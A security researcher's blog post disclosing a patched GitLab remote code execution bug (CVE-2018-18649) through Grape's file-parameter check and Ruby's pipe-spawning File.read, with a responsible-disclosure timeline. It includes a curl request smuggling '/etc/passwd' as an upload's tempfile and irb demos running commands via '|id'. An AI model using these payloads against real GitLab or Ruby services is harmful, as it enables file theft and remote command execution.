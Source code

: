 ```yaml
---
title:  "Second bite on GitLab, and some interesting Ruby functions/features"
date:   2018-12-12 15:34:11 +0800
categories: security
---
```


# Brief
It's been a while since I wrote something in this blog last time. I just posted
something about several bugs I found several months ago in GitHub Pages and
GitHub Enterprise. Go check them out if you are interested in some more examples
of incorrect path sanitizing and symbolic links in real world softwares!

But today I'm not going to talk about more of those. I'm going introduce some
recent findings about Ruby and how did I a find an RCE bug in GitLab.
([CVE-2018-18649](https://about.gitlab.com/2018/10/29/security-release-gitlab-11-dot-4-dot-3-released/))

# Ruby and GitLab
I wrote Ruby a lot when I was still in university. I used Ruby almost everywhere
I could use and even once submitted an assignment of my Operating System course
about threads and processes. However, after graduation I didn't have much time to
continue on the cool stuff with Ruby and focused on something else. :(

Recently, the experiences during the code auditing of GitLab, GitHub and several
other cool Ruby projects recalls me the best days of learning Ruby and feels me
like I'm designing the software and refining the code snippets with the developers.

As many people say, Ruby is an extremely flexible language and this flexibility
brings us elegant implementations, the freedom of creating DSL and etc. However
the flexibility also brings unnoticeable bugs. Here I'm going to show some code
snippets existed in GitLab.

## Duck Typing

> If it walks like a duck, swims like a duck, and quacks like a duck, then it probably is a duck.

GitLab uses [Grape](https://github.com/ruby-grape/grape) to create their APIs,
for example, the following API is used to upload attachments to the wiki of a
project.

``` ruby
        params do
          requires :file, type: File, desc: 'The attachment file to be uploaded'
          optional :branch, type: String, desc: 'The name of the branch'
        end
        post ":id/wikis/attachments", requirements: API::PROJECT_ENDPOINT_REQUIREMENTS do
          authorize! :create_wiki, user_project

          result = ::Wikis::CreateAttachmentService.new(user_project,
                                                        current_user,
                                                        commit_params(declared_params(include_missing: false))).execute
        ...
        end
```

Normally, Rack intercepts file uploading requests and sets `params[key][:tempfile]`
and `params[key][:filename]` to the temporary path of the uploaded file and the
original filename. So GitLab reads the content of the temp file and saves it
afterwards.

``` ruby
        def commit_params(attrs)
          {
            file_name: attrs[:file][:filename],
            file_content: File.read(attrs[:file][:tempfile]),
            branch_name: attrs[:branch]
          }
        end
```

At the same time, grape has a simple validation for `type: File`:

``` ruby
        def value_coerced?(value)
          # Rack::Request creates a Hash with filename,
          # content type and an IO object. Do a bit of basic
          # duck-typing.
          value.is_a?(::Hash) && value.key?(:tempfile)
        end
```

Well, it's not really duck-typing here. But the comments of the developer
reminds me this and it's surely thinking about duck-typing when it was
implementing this function.

Unfortunately, only duck quacking is not enough. A key named `:tempfile` exists
in the `params[:file]` hash doesn't really mean `params[:file]` is really a
uploaded file as expected.

Sending a simple POST request, we can easily smuggle our duck-like bird to pass this
duck typing check by setting `file[tempfile]` in the form data.

``` shell
curl -d "file[tempfile]=/etc/passwd&file[filename]=123" http://host:port
```

So, our bird can pass the inspection and tell us anything within a GitLab instance.

![2018-12-12-CVE-2018-18649-Gitlab-RCE_1](/assets/2018-12-12-CVE-2018-18649-Gitlab-RCE_1.png)

## Inheritance
Inheritance is not a Ruby only feature, inheritance exists in almost every OOP
language. It is a very helpful for designing softwares. However it also brings
some security risks.

In Ruby, there's a function `Kernel#open`

``` text
open(path [, mode [, perm]] [, opt]) → io or nil
...
If path starts with a pipe character ("|"), a subprocess is created, connected to the caller by a pair of pipes. The returned IO object may be used to write to the standard input and read from the standard output of this subprocess.
```
Which means, this function could be used to spawn sub-processes as long as the
first char of `path` is the pipe symbol.

``` text
irb(main):001:0> Kernel.open('|id').read
=> "uid=0(root) gid=0(root) groups=0(root)\n"
irb(main):002:0> open('|id').read
=> "uid=0(root) gid=0(root) groups=0(root)\n"
```

And, there are also some other functions having similar behavior, `IO::read`
for example:

``` text
read(name, [length [, offset]] [, opt] ) → string
Opens the file, optionally seeks to the given offset, then returns length bytes (defaulting to the rest of the file). read ensures the file is closed before returning.

If name starts with a pipe character ("|"), a subprocess is created in the same way as Kernel#open, and its output is returned.
```

Which means:

``` text
irb(main):003:0> path = '|id'
=> "|id"
irb(main):004:0> IO.read path
=> "uid=0(root) gid=0(root) groups=0(root)\n"
```

Well, so what's the business with inheritance here? A very very important point
of inheritance is that, the public methods of a parent class is inherited by a
child class, we can directly use those inherited methods in child classes as long
as we didn't override them. In Ruby, `File` is a child class of `IO`

``` text
irb(main):005:0> File.ancestors
=> [File, IO, File::Constants, Enumerable, Object, Kernel, BasicObject]
```

So,

``` text
irb(main):006:0> path = '|id'
=> "|id"
irb(main):007:0> File.read path
(irb):7: warning: IO.read called on File to invoke external command
=> "uid=0(root) gid=0(root) groups=0(root)\n"
```

easy huh? Till now, the arbitrary file read bug can be directly used to execute
system commands remotely.

![2018-12-12-CVE-2018-18649-Gitlab-RCE_2](/assets/2018-12-12-CVE-2018-18649-Gitlab-RCE_2.png)

# Some thoughts

I was quite shocked when I first discovered this `File.read` surprise. No matter
how to explain, I still can't accept the fact that calling `File.read` method on
a `|` started string spawns a sub-process instead of opening a file with that
name.

The fact is, not only method `read`:

``` text
pry(main)> (File.methods - File.methods(false)) & IO.methods(false)
=> [:console,
 :read,
 :sysopen,
 :for_fd,
 :popen,
 :foreach,
 :binread,
 :new,
 :binwrite,
 :write,
 :copy_stream,
 :select,
 :pipe,
 :open,
 :try_convert,
 :readlines]
```

All of these functions are inherited by `File` directly from `IO`, and some of
them have similar behavior with `File.read`.

According to the warning message printed in irb, I believe that Ruby-lang
developers already know this and are trying to rise notice of the users. It's a
good signal but I think it might be better to totally avoid this kind of
unexpected behavior from the language implementation layer, such as override
them in `File`.

# Timeline
[GitLab's bug bounty program](https://hackerone.com/gitlab) is very responsive
and regularly updated to keep reporters in the loop.

+ Oct 24th, Reported to GitLab
+ Oct 29th, Patch released https://about.gitlab.com/2018/10/29/security-release-gitlab-11-dot-4-dot-3-released/
+ Oct 29th, $10000 bounty was rewarded for this report
